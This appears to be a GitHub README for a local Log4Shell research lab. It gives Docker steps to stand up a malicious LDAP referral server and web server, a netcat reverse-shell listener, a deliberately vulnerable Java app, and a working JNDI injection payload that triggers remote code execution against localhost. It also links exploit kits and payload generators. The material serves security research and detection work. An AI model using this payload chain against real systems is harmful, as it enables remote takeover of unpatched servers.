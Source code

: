 # Log4j RCE Research Lab 🚧

A basic research lab to learn more about `Log4Shell`:
* [CVE-2021-45105](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45105)
* [CVE-2021-45046](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45046)
* [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228)

## Used By

* [Microsoft Sentinel To-Go! CVE-2021-44228-Log4Shell Demo](https://github.com/OTRF/Microsoft-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-44228-Log4Shell)

## Deploy LDAP Reference & Web Servers

### Clone Repo

```
sudo su
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Run Docker Compose File

```
cd log4jshell-lab
docker-compose -f MarshalsecLDAP-NginxWebServer.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```
## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```
### Compile Basic JAR

**Docker**
```
cd vulnApps/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Manual**
```
cd vulnApps/basicJar
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Security Datasets

* [Basic JNDI Lookup PCAP](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)

## References
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://www.youtube.com/watch?v=Y8a5nB-vy78
* https://github.com/veracode-research/rogue-jndi
* https://community.microfocus.com/cyberres/fortify/f/fortify-discussions/317555/the-perils-of-java-deserialization
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://github.com/pimps/JNDI-Exploit-Kit
* https://github.com/pimps/ysoserial-modified
* https://ldap.com/ldap-urls/
* https://github.com/pwntester/SerialKillerBypassGadgetCollection
* https://www.ibm.com/docs/en/content-manager/8.5.0?topic=ldap-server-configuration-storing-java-objects
* https://docs.microsoft.com/en-us/windows/win32/ad/enabling-schema-changes-at-the-schema-master
* https://forensicitguy.github.io/analyzing-log4shell-muhstik/
* https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode
* https://www.jackson-t.ca/runtime-exec-payloads.html
* https://github.com/woodpecker-appstore/log4j-payload-generator/tree/master